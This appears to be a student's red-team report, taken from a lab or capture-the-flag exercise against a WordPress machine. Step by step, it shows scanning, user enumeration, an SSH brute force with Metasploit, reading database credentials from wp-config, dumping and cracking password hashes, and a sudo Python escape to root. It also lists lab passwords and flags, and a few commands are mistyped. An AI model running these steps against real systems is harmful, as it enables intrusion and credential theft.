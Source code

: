 ## Red Team: Summary of Operations

Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167323675-6f768eff-da1b-490b-b86c-72e2a331e513.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323759-8b74a228-fd22-46af-8999-f0280edcce4b.PNG)
			![flag1b](https://user-images.githubusercontent.com/92223941/167323777-53619b86-1123-4d0d-8a23-56ab23b44df5.PNG)


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”

	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;

	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			- I logged into Steven via ssh 
			- ssh steven password:pink84
			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
